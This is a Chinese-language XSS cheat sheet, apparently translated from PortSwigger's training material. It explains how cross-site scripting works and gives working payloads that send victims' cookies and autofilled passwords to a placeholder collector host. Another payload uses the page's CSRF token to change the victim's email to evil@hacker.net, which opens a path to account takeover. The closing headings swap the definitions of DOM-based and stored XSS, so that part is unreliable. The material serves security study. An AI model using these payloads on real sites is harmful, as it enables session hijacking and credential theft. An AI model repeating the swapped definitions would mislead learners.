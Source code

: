 # **xss 脚本备忘录*
```
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
```
# XSS(跨站脚本攻击)

## 简介
```
跨站脚本攻击 (也称为 XSS) 是一种网络安全漏洞，可让攻击者破坏用户与易受攻击的应用程序之间的交互。它允许攻击者规避同源策略，该策略旨在将不同的网站彼此隔离。跨站脚本攻击漏洞通常允许攻击者伪装成受害用户，执行用户可以执行的任何操作，并访问用户的任何数据。如果受害用户在应用程序中拥有特权访问权限，则攻击者可能能够完全控制应用程序的所有功能和数据。
```
## 工作原理
```
跨站点脚本攻击的工作原理是操纵易受攻击的网站，使其向用户返回恶意 JavaScript。当恶意代码在受害者的浏览器中执行时，攻击者可以完全破坏他们与应用程序的交互
```
![image](https://github.com/user-attachments/assets/38d89f77-1d2c-491e-bb4f-0d04eb2d4512)

## 三种利用XSS的方法
### （1）利用跨站脚本窃取 Cookie
`您可以利用跨站点脚本漏洞将受害者的 cookie 发送到您自己的域，然后手动将 cookie 注入浏览器并冒充受害者。`
`实际上，这种方法有一些明显的局限性：`
```
1、受害者可能没有登录。
2、许多应用程序使用 HttpOnly 标志隐藏 JavaScript 中的 cookie。
3、会话可能会被锁定到其他因素，例如用户的 IP 地址。
4、会话可能会在您劫持之前超时。
```
payload:
```
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
### （2）利用跨站脚本获取密码
```
如今，许多用户都拥有可以自动填充密码的密码管理器。您可以利用此功能，创建密码输入，读取自动填充的密码，并将其发送到您自己的域。这种技术避免了与窃取 cookie 相关的大多数问题，甚至可以访问受害者重复使用相同密码的每个其他帐户。
这种技术的主要缺点是它只适用于拥有执行密码自动填充的密码管理器的用户。（当然，如果用户没有保存密码，您仍然可以尝试通过现场网络钓鱼攻击获取他们的密码，但这并不完全相同。）
```
payload:
```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
### (3)利用跨站脚本执行 CSRF
`合法用户可以在网站上执行的任何操作，您都可以使用 XSS 执行。根据您定位的网站，您可能能够让受害者发送消息、接受好友请求、向源代码存储库提交后门或转移一些比特币。`<br/>
`某些网站允许登录用户更改其电子邮件地址而无需重新输入密码。如果您发现了 XSS 漏洞，您可以让它触发此功能，将受害者的电子邮件地址更改为您控制的电子邮件地址，然后触发密码重置以获取对该帐户的访问权限。`<br/>
`这种类型的漏洞通常称为跨站点请求伪造 (CSRF)，这有点令人困惑，因为 CSRF 也可能作为独立漏洞发生。当 CSRF 作为独立漏洞发生时，可以使用反 CSRF 令牌等策略进行修补。但是，如果还存在 XSS 漏洞，这些策略不会提供任何保护。`<br/>
payload1:
```
<script>
window.addEventListener('DOMContentLoaded', function() {
    var token = document.getElementsByName('csrf')[0].value;

    var data = new FormData();
    data.append('csrf', token);
    data.append('email', 'evil@hacker.net');

    fetch('/my-account/change-email', {
        method: 'POST',
        mode: 'no-cors',
        body: data
    });
});
</script>
```
payload2:
```
window.addEventListener('DOMContentLoaded', function() {
    var token = document.getElementsByName('csrf')[0].value;

    var data = new FormData();
    data.append('csrf', token);
    data.append('email', 'evil@hacker.net');

    fetch('/my-account/change-email', {
        method: 'POST',
        mode: 'no-cors',
        body: data
    });
});
```

## XSS攻击类型
### (1) 反射型XSS -- 恶意脚本来自当前 HTTP 请求。
#### 介绍
```
反射型 XSS 是跨站点脚本攻击中最简单的一种。当应用程序在 HTTP 请求中接收数据并以不安全的方式将该数据包含在即时响应中时，就会发生这种情况。
```
#### 产生原因
`当应用程序在 HTTP 请求中接收数据并以不安全的方式将该数据包含在即时响应中时，就会出现反射型跨站点脚本 (或 XSS)。`<br/>
#example:
`假设某个网站具有搜索功能，它可以在 URL 参数中接收用户提供的搜索词：`<br/>
```
https://insecure-website.com/search?term=gift
```
`应用程序在对此 URL 的响应中回显所提供的搜索词：`<br/>
```
<p>You searched for: gift</p>
```
`假设应用程序不对数据执行任何其他处理，攻击者可以构建如下攻击：`<br/>
```
https://insecure-website.com/search?term=<script>/*+Bad+stuff+here...+*/</script>
```
`此 URL 产生以下响应：`<br/>
```
<p>You searched for: <script>/* Bad stuff here... */</script></p>
```
`如果应用程序的另一个用户请求攻击者的 URL，那么攻击者提供的脚本将在受害者用户的浏览器中，在他们与应用程序的会话环境中执行`

#### 反射型 XSS 攻击的影响
```
1、在应用程序中执行用户可以执行的任何操作。
2、查看用户可以查看的任何信息。
3、修改用户可以修改的任何信息。
4、发起与其他应用程序用户的交互，包括恶意攻击，这些交互似乎源自最初的受害者用户。

攻击者可以通过各种方式诱使受害者用户发出他们控制的请求，以发起反射型 XSS 攻击。这些方法包括在攻击者控制的网站上放置链接，或在允许生成内容的另一个网站上放置链接，或者通过电子邮件、推文或其他消息发送链接。攻击可以直接针对已知用户，也可以对应用程序的任何用户进行无差别攻击。
```
`攻击需要外部传递机制，这意味着反射型 XSS 的影响通常不如存储型 XSS 严重，存储型 XSS 可以在易受攻击的应用程序本身内发起自包含攻击。`

### (2) DOM型XSS -- 恶意脚本来自网站的数据库
### (3) 存储型XSS -- 漏洞存在于客户端代码中，而不是服务器端代码中。
